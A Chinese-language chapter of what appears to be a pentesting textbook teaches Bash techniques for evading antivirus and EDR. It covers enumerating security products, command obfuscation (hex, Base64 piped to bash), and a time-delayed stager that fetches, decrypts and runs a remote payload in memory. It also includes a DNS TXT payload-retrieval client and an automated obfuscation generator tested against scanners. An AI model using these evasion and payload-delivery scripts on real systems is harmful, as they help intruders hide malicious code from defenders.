


# 第十四章：规避与混淆

在网络安全领域，掌握**规避**和**混淆**技术对于攻防双方都至关重要。随着**杀毒软件**（**AV**）和**终端检测与响应**（**EDR**）系统的兴起，渗透测试人员现在必须学习传统上由红队使用的规避技能。没有这些技能，您在识别漏洞和创建利用证明概念时的努力可能会受到阻碍，从而导致系统漏洞的误报。

本章专注于使用 Bash shell 实现这些技术，特别是在渗透测试活动中规避 AV 和 EDR 系统检测的背景下。AV 和 EDR 以前仅出现在 Windows 环境中，现在它们已经广泛部署到 Linux/Unix 系统中。

在本章中，我们将探索各种创建和执行 Bash 脚本的方法，以减少被检测的风险。我们将首先研究如何枚举环境中的 AV 和 EDR 的存在，然后深入探讨基本和高级的混淆技术。最后，我们将学习如何自动化生成规避脚本。

到本章结束时，您将对 AV 和 EDR 系统的工作原理、常见的检测机制以及使用 Bash 实现混淆和规避策略的实用技巧有一个扎实的理解。这些技能不仅对渗透测试人员非常有价值，对于安全专业人员而言，也能够通过了解潜在攻击者使用的技术，提升自身的防御能力。

本章将涵盖以下主要主题：

+   枚举环境中的 AV 和 EDR

+   Bash 中的基本混淆技术

+   使用 Bash 实现高级规避策略

+   在 Bash 中自动化规避脚本生成

# 技术要求

要完成本章内容，我们需要一个带有 Bash shell 的 Linux 环境来执行示例代码。此外，您可以通过执行以下命令安装必要的 Bash 工具：

```
 $ sudo apt update && sudo apt install -y openssl dnsutils
```

本章的代码可以在 [`github.com/PacktPublishing/Bash-Shell-Scripting-for-Pentesters/tree/main/Chapter14`](https://github.com/PacktPublishing/Bash-Shell-Scripting-for-Pentesters/tree/main/Chapter14) 找到。

在完成前置要求后，让我们开始吧！

# 枚举环境中的 AV 和 EDR

在尝试任何规避技术之前，了解目标系统的安全环境至关重要。本节将重点介绍使用 Bash 脚本识别和分析 AV 和 EDR 解决方案的存在。我们将探索收集有关已安装的安全软件、活动监控进程和可能影响我们渗透测试活动的系统配置的实用方法。通过使用 Bash 命令和脚本，我们将开发出一种系统化的侦察方法。这将使我们在后续评估阶段能够采取更有效、更有针对性的规避策略。

环境侦察是任何渗透测试任务中的关键第一步，特别是当涉及到由 AV 和 EDR 解决方案保护的系统时。这个过程涉及收集目标系统的安全措施的详细信息，这对于以下几个原因至关重要：

+   **量身定制的方法**：通过了解已部署的特定 AV/EDR 解决方案，你可以定制你的渗透测试技术，避免被检测。每个安全解决方案都有自己的优缺点，了解这些可以帮助你根据情况调整方法。

+   **风险缓解**：侦察有助于识别与你的测试活动相关的潜在风险。例如，一些 EDR 解决方案可能会对某些操作触发警报或甚至自动响应。了解这些风险可以帮助你更仔细地规划测试，避免意外的干扰。

+   **效率**：了解安全形势有助于你集中精力在更有可能成功的技术上。这通过避免那些可能被已识别的安全解决方案检测或阻止的方法，节省了时间和资源。

+   **现实评估**：了解目标环境可以让你提供更准确的系统安全评估。这包括评估现有安全解决方案的配置情况，并识别任何保护漏洞。

+   **隐匿性**：在需要保持低调的场景下，环境侦察可以帮助你设计测试，以最小化被检测的风险。这在红队演习或测试生产系统时尤为重要。

让我们首先来看一下进程枚举：

1.  主要的方法之一是检查正在运行的进程。这可以通过使用像`ps`、`top`或`htop`这样的命令来完成。

    以下展示了如何列出所有运行中的进程：

    ```
    $ sudo ps aux
    ```

    此命令查找特定的 AV/EDR 进程名称：

    ```
    $ sudo ps aux | grep -E "(av|edr|protect|defend|guard)"
    ```

    由于`av`和`edr`字符串较短，输出可能会有许多假阳性，因为它们可能匹配其他无关的词汇。请仔细审查输出。

1.  文件系统分析是端点保护软件枚举的另一个重要方面，即检查与 AV/EDR 解决方案相关的特定文件或目录是否存在。

    我们可以搜索常见的与 AV/EDR 相关的目录，如下所示：

    ```
    $ ls -l /opt /etc | grep -E "(av|antivirus|edr|protect)"
    ```

    以下命令查找具有特定名称的文件：

    ```
    $ find / -name "*antivirus*" -o -name "*edr*" 2>/dev/null
    ```

1.  你还应该检查网络连接，以揭示与 AV/EDR 管理服务器的通信。

    以下示例列出了所有活动的网络连接：

    ```
    $ netstat -tuln
    ```

    在这个例子中，我们检查与已知 AV/EDR 服务器的出站连接：

    ```
    $ ss -tuln | grep -E "(8080|443|22)"
    ```

1.  当然，我们不能忘记服务枚举。许多 AV/EDR 解决方案以服务的形式运行。

    以下示例列出了所有服务：

    ```
    $ systemctl list-units --type=service
    ```

    列出服务后，我们可以检查特定服务的状态，如下所示：

    ```
    $ systemctl status avservice.service
    ```

1.  一些 AV/EDR 解决方案使用内核模块。以下命令将帮助你揭示可能用于端点保护的内核模块：

    ```
    $ lsmod
    ```

    我们可以进一步优化上面的命令，以检查特定的模块：

    ```
    $ lsmod | grep -E "(av|edr|protect)"
    ```

1.  不要忽视系统日志。检查系统日志可以揭示 AV/EDR 活动。请按如下方式检查系统日志中的 AV/EDR 相关条目：

    ```
    $ grep -E "(av|antivirus|edr)" /var/log/syslog
    ```

1.  包管理器元数据是另一种良好的情报来源。在使用包管理器的系统上，你可以查询已安装的安全软件。

    以下命令适用于基于 Debian 的系统：

    ```
    $ dpkg -l | grep -E "(av|antivirus|edr)"
    ```

    以下命令适用于基于 Red Hat 的系统：

    ```
    $ rpm -qa | grep -E "(av|antivirus|edr)"
    ```

1.  就像特权提升一样，始终检查环境变量。一些 AV/EDR 解决方案会设置环境变量。

    我们可以列出所有环境变量，如下所示：

    ```
    $ env
    ```

    我们可以进一步优化这个命令，查找特定的 AV/EDR 相关变量：

    ```
    $ env | grep -E "(AV|EDR|PROTECT)"
    ```

在 Bash 脚本中实现这些技术时，重要的是将多种方法结合使用，以实现全面的防护。这里有一个简单的示例，结合了几种方法。你可以在本章的 GitHub 仓库中找到名为`ch14_gather_basic_info.sh`的代码：

```
 #!/usr/bin/env bash
echo "Checking for AV/EDR presence..." # Process check
echo "Processes:"
ps aux | grep -E "(av|edr|protect|defend|guard)"
# File system check
echo "Suspicious directories:"
ls -l /opt /etc | grep -E "(av|antivirus|edr|protect)"
# Network connections
echo "Network connections:"
ss -tuln | grep -E "(8080|443|22)"
# Service check
echo "Services:"
systemctl list-units --type=service | grep -E "(av|antivirus|edr)"
# Kernel modules
echo "Kernel modules:"
lsmod | grep -E "(av|edr|protect)"
echo "Enumeration complete."
```

AV 和 EDR 软件会发送有关端点状态、性能和活动的数据。这被称为**遥测**。以下脚本检查主机是否将遥测数据发送到常见的 EDR 域。你可以在本章的 GitHub 仓库中找到名为`ch14_telemetry_check.sh`的脚本：

```
 #!/usr/bin/env bash
# Array of common EDR telemetry hostnames
edr_hostnames=(
    "*.crowdstrike.com"
    "*.sentinelone.net"
    "*.carbonblack.com"
    "*.cylance.com"
    "*.symantec.com"
    "*.mcafee.com"
    "*.trendmicro.com"
    "*.sophos.com"
    "*.kaspersky.com"
    "*.fireeye.com"
)
# Function to check for EDR connections
check_edr_connections() {
    echo "Checking for EDR connections..."     for hostname in "${edr_hostnames[@]}"; do
        if ss -tuar | grep -q "$hostname"; then
            echo "Found connection to $hostname"
        fi
    done
}
check_edr_connections
```

这些技术应该能为你提供足够的信息，以确定 Linux 或 Unix 系统是否安装了任何 AV 或 EDR 软件。在本章的后续部分，我们将探索混淆和规避技术。

# Bash 中的基本混淆技术

在本节中，我们将探索可应用于 Bash 脚本的各种混淆技术。这些方法从简单的变量名更改到更复杂的命令替代和编码策略不等。通过结合这些技术，渗透测试人员可以创建更有可能逃避检测并抵抗分析的脚本。

Bash 脚本中的混淆是指在保持功能的同时使代码难以理解。对于渗透测试人员来说，混淆是一种有价值的技术，能够逃避安全系统的检测，并使逆向工程工作变得更加复杂。本节涵盖了可应用于 Bash 脚本的基本混淆方法。

Bash 脚本混淆涉及修改脚本的外观和结构，而不改变其行为。目标是创建功能与原始脚本相同但难以理解的代码。虽然混淆不能提供万无一失的保护，但它可以显著增加分析和理解脚本所需的努力。

下面是一个简单的示例，说明了这一概念：

```
 #!/usr/bin/env bash
echo "Hello, World!"
```

这个简单的脚本可能会被混淆，示例如下：

```
 #!/usr/bin/env bash
$(printf "\x65\x63\x68\x6f") "$(printf "\x48\x65\x6c\x6c\x6f\x2c\x20\x57\x6f\x72\x6c\x64\x21")"
```

`printf`命令使用命令替换，并显示`Hello World`的十六进制表示。

两个脚本产生相同的输出，但第二个脚本在第一眼看上去要更难阅读。

下一个示例使用基本的变量替换来运行`sudo -l`命令，该命令被 EDR 代理检测到：

```
 cmd="sudo"
args="-l"
$cmd $args
```

我们可以使用`prin tf`进行更高级的命令替换，如这里所示：

```
 $ (printf '\x73\x75\x64\x6f') $(printf '\x2d\x6c')
```

这将导致运行相同的命令，如下图所示。



图 14.1 – 运行混淆的 sudo 命令的输出如图所示

可以使用 Base64 编码来混淆命令，如下所示：

```
 $ echo "c3VkbyAtbA==" | base64 -d | bash
```

我们还可以使用环境变量将命令的部分内容拆分，如下所示：

```
 $ export CMD_PART1="su"
$ export CMD_PART2="do"
$ export ARG="-l"
$ $CMD_PART1$CMD_PART2 $ARG
```

大括号扩展在打破字符串检测时也很有用，如这里所示：

```
 $ {s,u,d,o}" "-{l}
```

以下示例实现了使用`cut`的命令替换：

```
 $ $(cut -c1-4 <<< "sudo sudo") $(cut -c1-2 <<< "-l -l")
```

我们还可以使用 ASCII 十进制值，如这里所示：

```
 $ $(printf "\x$(printf '%x' 115)\x$(printf '%x' 117)\x$(printf '%x' 100)\x$(printf '%x' 111)") $(printf "\x$(printf '%x' 45)\x$(printf '%x' 108)")
```

这些方法中的每一种以不同的方式混淆`sudo -l`命令。这些技术可以结合使用或嵌套起来，以创造出更复杂的混淆。然而，重要的是要注意，现代安全解决方案通常能够检测到这些混淆尝试。这些方法在面对简单的模式匹配时更为有效，也被称为**基于签名的` `检测系统**。

在针对 EDR 系统测试这些混淆技术时，请观察每种方法如何影响检测率。一些 EDR 解决方案可能会检测到某些混淆技术，而忽略其他技术。这些信息对于理解被测试 EDR 系统的能力和局限性非常有价值。

我们将在下一节尝试更高级的技术。

# 使用 Bash 的高级规避策略

虽然基本的混淆技术可以有效，但为了绕过高级安全措施，通常需要更复杂的规避策略。本节将探讨使用 Bash 的高级规避方法。

**基于时间的规避**涉及根据特定的时间条件执行代码，使得安全解决方案更难检测到恶意活动。例如，我已经多次通过在脚本或可执行文件中对载荷进行编码或加密，并插入代码让它在解码或解密并运行载荷之前睡眠一段时间，从而绕过 AV。AV 和 EDR 供应商不想因为占用宝贵的系统资源或让系统变慢而使客户不满。因此，有时只需要简单的暂停几分钟，再执行恶意活动，就足够了。

提示

AV 和 EDR 供应商已经开始意识到简单的睡眠语句的使用。通常需要使用比调用`sleep()`函数更复杂的技术，例如在检查经过了多少时间之前执行一些随机任务。

以下脚本示例避免使用 sleep 语句，而是通过执行无害活动和检查以确保时间在凌晨 1 点到 3 点之间，才执行有效载荷。它可以在本章的 GitHub 仓库中找到，文件名为 `ch14_sleep_1.sh`：

```
 #!/usr/bin/env bash
current_hour=$(date +%H)
if [ $current_hour -ge 1 ] && [ $current_hour -lt 3 ]; then
    # Execute payload only between 1 AM and 3 AM
    echo "Executing payload..." # Add your payload here
else
    # Perform benign activity
    echo "System check completed." fi
```

或者，你可以使用 `sleep 600` 命令在执行有效载荷之前让程序休眠 10 分钟。此外，你还可以通过从 HTTPS URL 获取有效载荷并在 sleep 语句后解码或解密它，来使检测变得更加困难，而不是将其存储在脚本中。大多数防病毒系统最初会扫描文件并找不到恶意内容的证据，然后不会检测到任何恶意活动，最终停止监控该文件。

在 EDR 环境下，如果检测到文件、进程或网络签名，简单的 sleep 语句可能不足以避开检测。在这种情况下，你可以通过将活动分散到多个命令或步骤中，并在每个步骤之间插入时间，来避免检测。在特定时间范围内发生的多个攻击链动作可能会触发高风险或严重警报。然而，如果在动作之间插入足够的时间，你可能能够避开检测，或者每个步骤可能会以较低的严重性警报，避免被防御者注意。

脚本已被修改，在每个步骤之间插入了时间。以下脚本可以在本章的 GitHub 仓库中找到，文件名为 `ch14_sleep_2.sh`：

```
 #!/usr/bin/env bash
sleep 600
# URL of the encrypted payload
PAYLOAD_URL="https://example.com/encrypted_payload.bin"
# Encryption key (in hexadecimal format)
KEY="5ebe2294ecd0e0f08eab7690d2a6ee69"
# Retrieve the encrypted payload and decrypt it in memory
decrypted_payload=$(curl -s "$PAYLOAD_URL" | openssl enc -aes-256-cbc -d -K "$KEY" -iv 0000000000000000 | base64)
sleep 7200
# Execute the decrypted payload from memory
bash <(echo "$decrypted_payload" | base64 -d)
```

如果你想更加隐蔽，应该避免使用 `curl` 或 `wget` 来获取有效载荷，而是使用 DNS。以下示例包含了用于通过 DNS 传输数据的服务器端和客户端代码。你可以在 Bash 脚本中实现客户端代码，替换任何使用 `curl` 或 `wget` 的地方。

服务器端代码可以在本章的 GitHub 仓库中找到，文件名为 `ch14_dns_server.py`。客户端代码可以在本章的 GitHub 仓库中找到，文件名为 `ch14_dns_client.sh`：

```
 #!/usr/bin/env bash
SERVER_IP="10.2.10.99" #Replace with your actual server IP
DOMAIN="example.com"
function retrieve_data() {
    local key="$1"
    echo "Sending query for: $key.get.$DOMAIN to $SERVER_IP"
    local result=$(dig @$SERVER_IP +short TXT "$key.get.$DOMAIN")
    if [ -n "$result" ]; then
        # Remove quotes and decode
        local decoded=$(echo $result | tr -d '"' | base64 -d 2>/dev/null)
        if [ $? -eq 0 ]; then
            echo "Retrieved data for '$key': $decoded"
        else
            echo "Error decoding data for '$key'. Raw data: $result"
        fi
    else
        echo "No data found for '$key'"
    fi
    echo "-------------------"
}
# Example usage
retrieve_data "weather"
retrieve_data "news"
retrieve_data "quote"
retrieve_data "nonexistent"
```

客户端的输出可以在以下图中找到：



图 14.2 – 显示了 DNS 客户端的输出

重要提示

你需要自己编辑服务器端和客户端代码，修改以发送适合渗透测试操作的有效载荷。这只是一个框架。你可以在传输数据之前对其进行编码或加密，然后在客户端进行解码或解密，并完全在内存中运行代码以避免写入磁盘。

以下是 `retrieve_data` 函数代码的解释：

+   `local key="$1"` ：这一行声明了一个本地变量 `key`，并将其赋值为传递给函数的第一个参数的值。

+   `echo "Sending query for: $key.get.$DOMAIN to $SERVER_IP"` ：这一行打印出发送的查询内容。

+   `local result=$(dig @$SERVER_IP +short TXT "$key.get.$DOMAIN")` ：这是函数的核心，使用`dig`命令执行 DNS 查询。让我们分解一下：

    +   `dig` ：这是一个 DNS 查询工具。

    +   `@$SERVER_IP` ：这个变量指定了要查询的 DNS 服务器（你自定义的服务器）。

    +   `+short` ：这告诉`dig`给出简洁的答案。对于`TXT`记录，它只返回文本数据。

    +   `TXT` ：这指定我们正在查找`TXT`记录。

    +   `"$key.get.$DOMAIN"` ：这是我们查询的完整域名，包含了`key`变量、`get`字眼和`DOMAIN`变量。

    +   整个命令被包裹在`$()`中，这是命令替换。它运行命令并返回输出，然后将其分配给`result`变量。

+   `if [ -n "$result" ]; then` ：这检查`result`变量是否非空。

+   在`if`语句块内部，我们有以下内容：

    +   `local decoded=$(echo $result | tr -d '"' | base64 -d 2>/dev/null)` ：这一行处理结果：

        +   `echo $result` ：输出结果

        +   `tr -d '"'` ：移除任何引号字符

        +   `base64 -d` ：解码 Base64 编码的字符串

        +   `2>/dev/null` ：将任何错误信息重定向到`/dev/null`（丢弃它们）

+   `if [ $? -eq 0 ]; then` ：这检查之前的命令（Base64 解码）是否成功：

    +   如果成功，它将打印解码后的数据。如果失败，它将打印错误信息和原始数据。

    +   如果`result`为空，它会打印`No data found** **for '{$key}'`。

    +   最后，输出一个分隔符行。

`dig` 命令在这里非常重要。它使用 DNS 传输数据，查询一个包含我们关心的密钥的`TXT`记录的域名。服务器会在`TXT`记录中返回 Base64 编码的数据，客户端随后进行解码。

这种使用 DNS 进行数据传输的方法有时被称为**DNS 隧道**或**DNS 外泄**。这是利用一种通常被防火墙允许的协议（DNS）来传输数据的创意方式，即使其他协议被阻止时，仍然可以通过该协议进行数据传输。

在探索了多种规避 AV 或 EDR 检测的混淆载荷方法之后，让我们继续下一部分，探讨如何使用 Bash 自动化脚本混淆。

# 自动化 Bash 中的规避脚本生成

为了自动化生成混淆的 Bash 脚本，我们将创建一个简单的框架，结合多种规避技术。这个框架将帮助我们快速生成更有可能避开 AV 和 EDR 系统检测的脚本。

这是我们框架的基本结构。以下代码可以在本章的 GitHub 仓库中找到，文件名为`ch14_auto_obfuscate_1.sh`。我将把代码分解成小部分并进行解释：

```
 #!/usr/bin/env bash
# Function to encode a string using base64
encode_base64() {
    echo "$1" | base64
}
```

上面的代码块提供了一个函数来对传递给该函数的任何数据进行 Base64 编码。在代码的下一部分，提供了一个函数，使用`openssl`程序生成由四位十六进制字符组成的随机变量名：

```
 # Function to obfuscate variable names
obfuscate_var_name() {
    echo "var_$(openssl rand -hex 4)"
}
```

然后，Bash 代码将`cmd`变量的内容转换为一个没有空格和换行符的十六进制字符串表示：

```
 # Function to obfuscate a command using command substitution
obfuscate_command() {
    local cmd="$1"
    echo "$(echo "$cmd" | od -A n -t x1 | tr -d ' \n')"
}
```

这里介绍了`od`工具。它用于以各种格式输出数据。`od -A n -t x1`命令用于以特定格式显示文件或输入的内容。以下是详细说明：

+   `od`：这是`octal dump`的缩写，是一个命令行工具，用于以各种格式显示数据。

+   `-A n`：该选项指定输出中不显示地址（偏移量）。

+   `-t x1`：这表示显示格式。`x`指定十六进制格式，`1`表示 1 字节单位。这意味着数据将以每个字节的两位十六进制数字显示。

以下代码声明了重要变量，然后逐行读取原始脚本：

```
 # Main function to generate an obfuscated script
generate_obfuscated_script() {
    local original_script="$1"
    local obfuscated_script=""
    while IFS= read -r line; do
```

下一个代码块检查一行文本是否匹配类似于脚本中变量赋值的特定模式，提取变量名，并将其替换为混淆版本：

```
 # Obfuscate variable assignments
        if [[ "$line" =~ ^[[:space:]]*([a-zA-Z_][a-zA-Z0-9_]*)[[:space:]]*= ]]; then
            var_name="${BASH_REMATCH[1]}"
            new_var_name=$(obfuscate_var_name)
            line="${line//$var_name/$new_var_name}"
        fi
```

下一个 Bash 代码块的设计目的是匹配以命令字符串开头的行，对命令进行混淆，然后在行内用编码后的表示替换它：

```
 # Obfuscate commands
        if [[ "$line" =~ ^[[:space:]]*([-a-zA-Z0-9_]+) ]]; then
            cmd="${BASH_REMATCH[1]}"
            obfuscated_cmd=$(obfuscate_command "$cmd")
            line="${line//$cmd/\$(echo -e \"\x$(echo "$obfuscated_cmd" | sed 's/../\\x&/g')\")}"
        fi
```

以下代码将原始脚本名指定为一个变量：

```
 obfuscated_script+="$line"$'\n'
    done < "$original_script"
    echo "$obfuscated_script"
}
original_script="original_script.sh"
obfuscated_script=$(generate_obfuscated_script "$original_script")
echo "$obfuscated_script" > obfuscated_script.sh
```

然后，它基于`generate_obfuscated_script`函数的返回值声明了一个混淆脚本的变量。该变量的内容随后会被保存到`obfuscated_script.sh`文件中。

该脚本提供了一个生成混淆 Bash 脚本的基本框架。它包括编码字符串、混淆变量名和混淆命令的函数。主要的`generate_obfuscated_script`函数读取原始脚本，应用各种混淆技术，并生成一个混淆后的版本。

该脚本通过逐行读取原始脚本来工作。对于每一行，它检查是否可以对某些变量赋值或命令进行混淆。变量名会被替换成随机生成的名称，命令会被转换成十六进制表示，并在运行时解码。

为了使我们的框架更加灵活和可扩展，我们可以实现模块化的混淆技术。该方法使我们能够轻松添加新的混淆方法或以不同的方式组合现有方法。

下面是如何修改我们的框架以支持模块化混淆技术的示例。该脚本可以在 GitHub 仓库中找到，文件名为`ch14_auto_obfuscate_2.sh`：

```
 #!/usr/bin/env bash
# Array to store obfuscation techniques
obfuscation_techniques=()
# Function to add an obfuscation technique
add_obfuscation_technique() {
    obfuscation_techniques+=("$1")
}
```

上面的代码块创建了一个混淆技术数组，并提供了一个函数将技术添加到数组中。

```
 # Example obfuscation techniques
obfuscate_base64() {
    echo "echo '$1' | base64 -d | bash"
}
obfuscate_hex() {
    echo "echo -e '$(echo "$1" | od -A n -t x1 | tr -d ' \n')' | bash"
}
obfuscate_eval() {
    echo "eval '$1'"
}
```

在上面的代码块中，定义了混淆函数。

```
 # Add techniques to the array
add_obfuscation_technique obfuscate_base64
add_obfuscation_technique obfuscate_hex
add_obfuscation_technique obfuscate_eval
```

在前面的代码段中，我们选择了我们的混淆技术并将其添加到`obfuscation_techniques`数组中。

```
 # Function to apply a random obfuscation technique
apply_random_obfuscation() {
    local content="$1"
    local technique_index=$((RANDOM % ${#obfuscation_techniques[@]}))
    local chosen_technique="${obfuscation_techniques[$technique_index]}"
    $chosen_technique "$content"
}
```

在前面的代码中，`apply_random_obfuscation`函数会随机选择一种技术，然后调用该技术的函数并将原始脚本内容传入函数调用中。

```
 # Main function to generate an obfuscated script
generate_obfuscated_script() {
    local original_script="$1"
    local obfuscated_script=""
    while IFS= read -r line; do
        obfuscated_line=$(apply_random_obfuscation "$line")
        obfuscated_script+="$obfuscated_line"$'\n'
    done < "$original_script"
    echo "$obfuscated_script"
}
```

在前面的代码块中，`generate_obfuscated_script`函数逐行处理原始脚本，在每一行上调用`apply_random_obfuscation`函数。每次函数调用的输出会被追加到`obfuscated_script`变量中，然后打印到终端。

```
 # Usage
original_script="original_script.sh"
obfuscated_script=$(generate_obfuscated_script "$original_script")
echo "$obfuscated_script" > obfuscated_script.sh
```

在前面的代码中，调用了之前声明的函数，最终会将混淆后的脚本保存到一个文件中。

这个更新后的框架引入了一系列混淆技术，并提供了一个函数用于添加新的技术。`apply_random_obfuscation`函数会随机选择一种技术应用到脚本的每一行。这个模块化方法使得在不改变脚本生成器核心逻辑的情况下，轻松地添加新的混淆方法或修改现有的混淆方法。

为了进一步增强我们的框架，我们可以创建一个独立的规避函数库。这个库将包含我们已经介绍的各种混淆和规避技术，可以被导入并在我们的主脚本生成器中使用。

要在我们的主脚本生成器中使用这个库，我们可以将其引用，并将规避函数整合到我们的混淆技术中。以下代码行可以用来从外部脚本中引用包含规避函数的 Bash 脚本：

```
 source ch14_evasion_library.sh
```

这一点在`ch14_auto_obfuscate_4.sh`脚本中得到了展示，脚本可以在本章的 GitHub 仓库中找到。由于它与以前的版本非常相似，唯一的区别是从外部脚本引用了规避函数，因此这里不会显示完整的代码。

这种方法使我们能够维护一个单独的规避函数库，方便管理、更新和扩展我们的混淆技术集合。

为了使我们的混淆过程更加动态和不可预测，我们可以开发一个脚本，针对原始脚本中的每一行或命令结合多种规避方法。这个方法增加了混淆脚本的复杂性，使得检测系统更难分析。

下面是如何修改我们的脚本生成器以动态地结合规避方法的示例。此示例在以下脚本中演示，脚本文件名为`ch14_auto_obfuscate_5.sh`，可以在 GitHub 仓库中找到：

```
 #!/usr/bin/env bash
source ch14_evasion_library.sh
```

前面的代码从外部文件引用了混淆函数的代码。

```
 # Function to apply multiple random obfuscation techniques
apply_multiple_obfuscations() {
    local content="$1"
    local num_techniques=$((RANDOM % 3 + 1))  # Apply 1 to 3 techniques
    for ((i=0; i<num_techniques; i++)); do
        local technique_index=$((RANDOM % ${#obfuscation_techniques[@]}))
        local chosen_technique="${obfuscation_techniques[$technique_index]}"
        content=$($chosen_technique "$content")
    done
    echo "$content"
}
```

前面代码中`apply_multiple_obfuscations`函数与以前版本的主要区别在于，它可以使用 1 到 3 种混淆技术，而不是仅使用 1 种。

```
 # Main function to generate an obfuscated script
generate_obfuscated_script() {
    local original_script="$1"
    local obfuscated_script=""
    while IFS= read -r line; do
        if [[ -n "$line" && ! "$line" =~ ^[[:space:]]*# ]]; then
            obfuscated_line=$(apply_multiple_obfuscations "$line")
            obfuscated_script+="$obfuscated_line"$'\n'
        else
            obfuscated_script+="$line"$'\n'
        fi
    done < "$original_script"
    echo "$obfuscated_script"
}
```

在前面的代码中，原始脚本代码按行处理并传递给`apply_multiple_obfuscations`函数。一旦函数处理完数据并应用了混淆，它会将结果附加到`obfuscated_script`变量中。

```
 # Usage
original_script="original_script.sh"
obfuscated_script=$(generate_obfuscated_script "$original_script")
echo "$obfuscated_script" > obfuscated_script.sh
```

这个更新后的脚本引入了`apply_multiple_obfuscations`函数，该函数对脚本的每一行应用随机数量的混淆技术。此方法创建了更复杂和多样化的混淆模式，使得识别模式或签名变得更加困难。

生成混淆脚本后，重要的是对它们进行测试并验证它们在常见的 AV 和 EDR 产品中的表现。这个过程有助于确保我们的混淆技术有效，并根据结果优化我们的方法。

下面是一个基本的脚本，演示了我们如何测试混淆脚本。它可以在 GitHub 仓库中找到，文件名是`ch14_auto_obfuscate_6.sh`。你需要获得一个 VirusTotal API 密钥，并在运行脚本前替换`YOUR_API_KEY`字符串。你可以在[`docs.virustotal.com/docs/please-give-me-an-api-key`](https://docs.virustotal.com/docs/please-give-me-an-api-key)找到获取 API 密钥的说明：

```
 #!/usr/bin/env bash
# Source the obfuscation script
source ch14_auto_obfuscate_1.sh
# Function to test a script against AV/EDR solutions
test_script() {
    local script="$1"
    local result=""
    # Simulate testing against different AV/EDR solutions
    # In a real scenario, you would use actual AV/EDR products or online scanning services
    result+="ClamAV: $(clamscan "$script")"$'\n'
    result+="VirusTotal: $(curl -s -F "file=@$script" https://www.virustotal.com/vtapi/v2/file/scan --form apikey=YOUR_API_KEY)"$'\n'
    echo "$result"
}
```

上述代码块中的`test_script`函数负责使用 ClamAV 软件进行扫描，并检查 VirusTotal 网站上的检测结果。

```
 # Generate and test multiple variations of obfuscated scripts
generate_and_test() {
    local original_script="$1"
    local num_variations="$2"
    for ((i=1; i<=num_variations; i++)); do
        echo "Testing variation $i"
        obfuscated_script=$(generate_obfuscated_script "$original_script")
        echo "$obfuscated_script" > "obfuscated_script_$i.sh"
        test_result=$(test_script "obfuscated_script_$i.sh")
        echo "$test_result"
        echo "-------------------------"
    done
}
```

上述代码块负责生成并测试多个混淆迭代版本。

```
 # Usage
original_script="original_script.sh"
num_variations=5
generate_and_test "$original_script" "$num_variations"
```

这个脚本演示了测试混淆脚本的基本方法。`test_script`函数模拟了将脚本与不同的 AV/EDR 解决方案进行测试。在实际场景中，你将用 AV/EDR 产品或在线扫描服务的实际扫描替代这些模拟。

`generate_and_test`函数生成多个混淆脚本变种，并对每个变种进行测试。这样，我们可以看到不同混淆技术组合在检测系统中的表现。

该脚本生成指定数量的混淆变种，并通过测试过程对它们进行测试，提供每个变种的结果。

需要注意的是，这是一个简化的示例，主要用于演示目的。在实际操作中，对 AV/EDR 解决方案的测试将涉及更全面的方法，可能包括以下内容：

+   使用专门的测试环境或沙盒

+   使用多个 AV/EDR 产品进行彻底的测试

+   除了基于签名的检测外，还需要分析行为检测。

+   随着 AV/EDR 解决方案的发展，不断更新测试过程

通过系统地测试和验证我们的混淆脚本，我们可以优化混淆技术，确保它们在当前的检测方法面前依然有效。

在本节中，我们学习了如何创建一个全面的系统，用于生成、混淆和测试 Bash 中的规避脚本。这种自动化方法不仅节省了时间，还允许创建更复杂和更有效的规避技术。

# 总结

在本章中，我们探讨了在渗透测试中规避 AV 和 EDR 系统检测的技术，重点讨论了 Bash 脚本编写。我们介绍了如何收集有关安全环境的信息、基本和高级混淆技术，以及自动生成规避脚本的策略。

我们学习了如何使用 Bash 命令来识别已安装的安全软件和正在运行的监控进程。我们探讨了各种混淆方法，包括变量名混淆、命令替换和编码技术。我们还涵盖了高级规避策略，如基于时间的规避和通过 DNS 传输数据。最后，我们讨论了开发一个框架来生成混淆的 Bash 脚本，并测试其在常见 AV 和 EDR 解决方案下的有效性。

这些技术的价值将随着越来越多的利益相关者在 Linux 系统上安装端点保护代理而显现出来。这将使渗透测试变得更加困难，而你新的混淆技巧将大有裨益。

在*第十五章*中，我们将探讨与人工智能交互及其在渗透测试中的应用。
